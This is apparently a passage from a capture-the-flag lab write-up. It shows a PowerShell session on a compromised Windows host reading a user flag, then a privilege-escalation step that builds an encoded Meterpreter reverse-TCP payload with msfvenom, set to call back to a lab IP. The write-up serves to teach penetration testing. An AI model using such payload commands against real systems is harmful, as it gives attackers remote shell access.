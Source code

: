 ```shell
PS C:\users> cd bruce
PS C:\users\bruce> ls


    Directory: C:\users\bruce


Mode                LastWriteTime     Length Name                              
----                -------------     ------ ----                              
d----        10/25/2019   8:05 PM            .groovy                           
d-r--        10/25/2019   9:51 PM            Contacts                          
d-r--        10/25/2019  11:22 PM            Desktop                           
d-r--        10/26/2019   4:43 PM            Documents                         
d-r--        10/26/2019   4:43 PM            Downloads                         
d-r--        10/25/2019   9:51 PM            Favorites                         
d-r--        10/25/2019   9:51 PM            Links                             
d-r--        10/25/2019   9:51 PM            Music                             
d-r--        10/25/2019  10:26 PM            Pictures                          
d-r--        10/25/2019   9:51 PM            Saved Games                       
d-r--        10/25/2019   9:51 PM            Searches                          
d-r--        10/25/2019   9:51 PM            Videos                            


PS C:\users\bruce> cd desktop
PS C:\users\bruce\desktop> ls


    Directory: C:\users\bruce\desktop


Mode                LastWriteTime     Length Name                              
----                -------------     ------ ----                              
-a---        10/25/2019  11:22 PM         32 user.txt                          


PS C:\users\bruce\desktop> type user.txt
**********************************
```

---

# Privilege Escalation

## Local Enumeration

To enumerate further we can use a metasploit shell, firstly we need to generate a payload

```shell
msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=10.14.49.18 LPORT=4444 -f exe -o test.exe
```
